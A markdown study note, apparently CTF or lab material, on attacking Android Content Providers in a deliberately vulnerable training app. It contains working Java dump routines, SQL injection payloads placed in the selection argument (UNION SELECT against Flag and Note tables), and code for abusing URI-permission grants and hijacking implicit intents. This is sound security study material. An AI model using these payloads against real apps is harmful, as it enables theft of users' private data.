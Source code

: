 # Content Provider
- [Overview](#overview)
- [SQL Injection in Content Providers](#sql-injection-in-content-providers)
- [GRANT_READ_URI_PERMISSION](#grant_read_uri_permission)
- [Hijacking Content Provider Access](#hijacking-content-provider-access)


## Overview
- Content Providers are identified and accessed with a `content://` URI. 
- We can call it using adb `adb shell content query --uri CONTENT_URI`
- Using the `getContentResolver().query()` method the URI can be querried. The returned data is a table structure that can be explored using the Cursor object.

```java
Cursor cursor = getContentResolver().query(ContactsContract.RawContacts.CONTENT_URI,
                null, null,
                null, null);
```

- Dump content provider:
```java
public void dump(Uri uri) {
    Cursor cursor = getContentResolver().query(uri, null, null, null, null);
    if (cursor.moveToFirst()) {
        do {
            StringBuilder sb = new StringBuilder();
            for (int i = 0; i < cursor.getColumnCount(); i++) {
                if (sb.length() > 0) {
                    sb.append(", ");
                }
                sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
            }
            Log.d("evil", sb.toString());
        } while (cursor.moveToNext());
    }
}
```

> [!TIP]
> Always check for query(), update(),insert() and delete() function in content providers

> [!NOTE]
> Don't forget to add queries tag in AndroidManifest.xml
> ```xml
>    <queries>
>        <package android:name="io.hextree.attacksurface"/>
>    </queries>
> ```


## SQL Injection in Content Providers
- We can use the same dump method that we have used before and pass SQL queries in selection argument:
```java
    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "1) UNION SELECT * FROM Flag WHERE visible=0 AND (1", null, null);
        if (cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
    }
```

## GRANT_READ_URI_PERMISSION
- Sharing access to Content Provider is a central feature of Android. It is used all the time to give other apps access, without giving direct file access. A typical <provider> looks like this:
```xml
<provider
    android:name=".providers.Flag33Provider1"
    android:authorities="io.hextree.flag33_1"
    android:enabled="true"
    android:exported="false"
    android:grantUriPermissions="true" />
```
- The provider is generally not exported with `android:exported="false"` but the attribute `android:grantUriPermissions="true"` is set. 
- This means the provider cannot be directly interacted with. But the app can allow another app to query the provider, when sending an Intent with a flag such as `GRANT_READ_URI_PERMISSION`.

- For example an app might start an Activity and expect a result. The target app can then share access to its content provider by returning such an Intent back to the caller class.
```java
intent.setData(Uri.parse("content://io.hextree.example/flags"));
intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
setResult(RESULT_OK, intent);
```
- We can Inject into the provided Uri:
```java
        Button button = (Button) findViewById(R.id.click);
        button.setOnClickListener(new View.OnClickListener() {
            public void onClick(View v) {
                Intent intent = new Intent();
                intent.setAction("io.hextree.FLAG33");
                intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag33Activity1");
                startActivityForResult(intent, 1); // 1 is the requestCode
            }
        });


    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        if (requestCode == 1) { // Matching the requestCode
            if (resultCode == RESULT_OK) {
                dump(data.getData());
            }
        }

    }

    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "1=1 UNION SELECT null, title, content, null FROM Note --", null, null);
        if (cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
    }
```

## Hijacking Content Provider Access

- Example class:
```java
Intent intent = new Intent();
intent.setAction("io.hextree.FLAG33");
intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
intent.addFlags(1);
startActivity(intent);
```

- We can create another activity that handles the action and Uri, We should define it in AndroidManifes.xml:
```xml
<activity
    android:name=".Second_Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.FLAG33" />
        <category android:name="android.intent.category.DEFAULT" />
        <data
            android:scheme="content"
            android:host="io.hextree.flag33_2"
            android:path="/flags"/>
    </intent-filter>
</activity>
```
- Second_Activity.class
```java
Intent intent = getIntent();
dump(intent.getData());




    public void dump(Uri uri) {
        Cursor cursor = getContentResolver().query(uri, null, "_id=2 UNION SELECT 1, title, content, null FROM Note --", null, null);
        if (cursor.moveToFirst()) {
            do {
                StringBuilder sb = new StringBuilder();
                for (int i = 0; i < cursor.getColumnCount(); i++) {
                    if (sb.length() > 0) {
                        sb.append(", ");
                    }
                    sb.append(cursor.getColumnName(i) + " = " + cursor.getString(i));
                }
                Log.d("evil", sb.toString());
            } while (cursor.moveToNext());
        }
    }
```

## Resources
- [Oversecured Content Provider](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers)